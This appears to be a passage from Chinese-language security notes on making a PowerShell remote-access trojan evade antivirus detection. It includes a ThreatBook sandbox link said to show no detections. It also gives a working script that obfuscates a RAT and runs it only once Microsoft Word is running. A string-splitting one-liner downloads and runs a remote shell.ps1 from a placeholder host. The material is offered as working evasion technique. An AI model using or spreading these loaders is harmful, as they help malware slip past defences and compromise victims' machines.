 [样本报告-微步在线云沙箱 (threatbook.com)](https://s.threatbook.com/report/file/da54f8b59c4643f2248c77d1263b98ef036fe7fa9946b0d05b22bbdc72dfc98f)

微步是无检出的

![image-20240115181538678](http://cdn.ayusummer233.top/DailyNotes/202401151815161.png)

---

### 条件触发

设计脚本在满足某些特定条件(如特定的系统配置、日期或用户活动) 时才执行恶意操作

例如只有当 word 启动时才执行恶意代码

```powershell
$originalScript = Get-Content -Path "../RATSample.ps1" -Raw
$encryptedScript = ($originalScript.ToCharArray() | ForEach-Object {
        $asciiValue = [int][char]$_ + 1
        $asciiValue.ToString("D3")
    }) -join ''
$decryptionScript = @"
`$wordRunning = `$false
while (-not `$wordRunning) {
    if (Get-Process -Name "WINWORD" -ErrorAction SilentlyContinue) {
        `$wordRunning = `$true
    }else {
        Start-Sleep -Seconds 10
    }
}
`$encryptedScript = '$encryptedScript'
`$decryptedScript = ''
for (`$i = 0; `$i -lt `$encryptedScript.Length; `$i+=3) {
    `$asciiValue = [int]::Parse(`$encryptedScript.Substring(`$i, 3)) - 1
    `$decryptedScript += [char]`$asciiValue
}
Invoke-Expression `$decryptedScript
"@

$decryptionScript | Out-File -FilePath "ConditionTriggeredEncryptedRAT.ps1"

```

---

### 行为免杀

> [远控免杀从入门到实践(6)-代码篇-Powershell - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/227467.html)

```powershell
powershell -NoExit "$c1='IEX(New-Object Net.WebClient).Downlo';$c2='123(''http://xx.x.x/shell.ps1'')'.Replace('123','adString');IEX ($c1+$c2)"
```
